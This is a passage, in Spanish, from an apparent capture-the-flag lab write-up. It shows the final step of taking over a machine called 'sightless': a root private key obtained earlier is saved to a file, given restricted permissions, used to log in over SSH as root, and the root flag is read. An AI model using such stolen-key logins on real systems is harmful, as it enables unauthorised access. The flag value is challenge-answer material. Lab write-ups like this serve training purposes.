 Lo que realizaremos es copiar el contenido de la clave privada en un nuevo archivo llamado `root_key` para evitar que hayan carácteres extraños en el archivo orignalmente exportada.

Verificaremos que si procedemos nuevamente de conectarnos al SSH mediante la clave privada del usuario `root`, ganamos acceso a la máquina y visualizamos la flag de **root.txt**.

```bash
❯ chmod 600 root_key
❯ ls -l root_key
.rw------- kali kali 3.3 KB Fri Jan 17 03:17:53 2025  root_key
❯ ssh -i root_key root@10.10.11.32
Last login: Fri Jan 17 01:53:26 2025 from 127.0.0.1
root@sightless:~$ hostname
sightless
root@sightless:~$ cat /root/root.txt 
13f85930a270ac2f74f39cbc8574cf1e
```
